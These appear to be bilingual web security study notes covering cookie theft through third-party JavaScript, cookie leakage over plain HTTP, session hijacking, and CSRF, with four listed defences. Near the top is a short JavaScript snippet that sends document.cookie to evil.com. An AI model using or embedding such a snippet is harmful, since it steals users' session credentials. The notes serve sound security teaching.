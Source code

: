 If your bank includes Google Analytics Javascript, can it access your
Bank’s authentication cookie?

Yes!

```javascript
const img = document.createElement("image");
img.src = "https://evil.com/?cookies=" + document.cookie;
document.body.appendChild(img);
```

罪魁祸首：`document.cookie` ，这个 api 设计有问题！没考虑安全问题！

**cookie with http**

cookie 不区分 http 和 https！

用户在 https 下访问 bank.com 后将用户凭证存储在 cookie 中的。但是如果 hacker 诱导用户访问 http 版本的 bank.com，那么请求就会自动携带上 cookie，加上 http 是明文传输的，就导致存储在 cookie 中的用户凭证泄露了！

## 09-web-attacks

### Session Hijacking Attacks

**Capturing cookies in order to steal a user’s session** — whether it be through network sniffing, malicious Javascript, or another means — is known as a Session Hijacking Attack.

### Cross-Site Request Forgery(CSRF)

不是我们自己网站发出来的请求，是伪造的请求。

Cross-site request forgery (CSRF) attacks are a type of web exploit where a website transmits unauthorized commands as a user that the web app trusts.

In a CSRF attack, a user is tricked into submitting an unintended  (often unrealized) web request to a website.

**Cookie-Based Authentication**

Cookie-based authentication is not sufficient for requests that have any side affect.

**Preventing CSRF Attacks**

Cookies do not indicate whether an authorized application submitted request since they’re included in every (in-scope) request.
We need another mechanism that allows us to ensure that a request is authentic (coming from a trusted page).

*简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。*

cookie 不能作为认证的凭证，有很大的漏洞。下面给出四种补丁方案：

Four commonly used techniques:
- *Referer Validation*
- Secret Validation Token
- Custom HTTP Header
- SameSite Cookies
